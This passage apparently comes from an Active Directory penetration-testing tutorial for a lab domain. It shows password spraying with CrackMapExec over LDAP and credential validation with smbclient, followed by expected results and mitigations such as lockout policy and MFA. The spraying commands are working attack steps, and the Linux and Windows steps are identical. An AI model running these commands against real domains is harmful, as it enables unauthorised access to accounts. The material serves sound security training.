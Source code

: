 2.  **Perform spraying on Linux**
    
    ```
    cme ldap lab.local -u targets.txt -p "Autumn2025!" --continue-on-success
    ```
    
    _Look for:_  `LAB\asmith:Autumn2025! (LDAP)` indicating success.
    
3.  **Perform spraying on Windows**
    
    ```
    cme ldap lab.local -u targets.txt -p "Autumn2025!" --continue-on-success
    ```
    
    _Look for:_ Successful bind entries similar to above.
    
4.  **Validate credentials**
    
    ```
    smbclient -L \dc1.lab.local -U jdoe%Autumn2025!
    ```
    
    _If you see share listings, the password is valid._
    

----------

### Expected Result

-   A list of accounts that accepted the sprayed password in CrackMapExec output.
    
-   Successful SMB share listings via valid credentials.
    

----------

### Mitigation & Hardening

-   **Implement tighter lockout policies**: Lower threshold (e.g., 3 attempts) and longer lockout durations.
    
-   **Enable Multi-Factor Authentication (MFA)** for all critical accounts.
    
-   **Monitor for rapid failed logins** and alert on anomalies.
    

----------

### Next Steps

-   **Attack Type:** Targeted Password Spraying → Credential Validation
    
-   **Attack Path:**
    
    1.  Build and refine target lists via LDAP.
        
    2.  Spray common passwords with CME.
        
    3.  Validate valid credentials for deeper enumeration or persistence.
- - - - - 
## <a name="module-10"></a> Module 10: Enumerating Computers, SPN Delegation & Trust Relationships
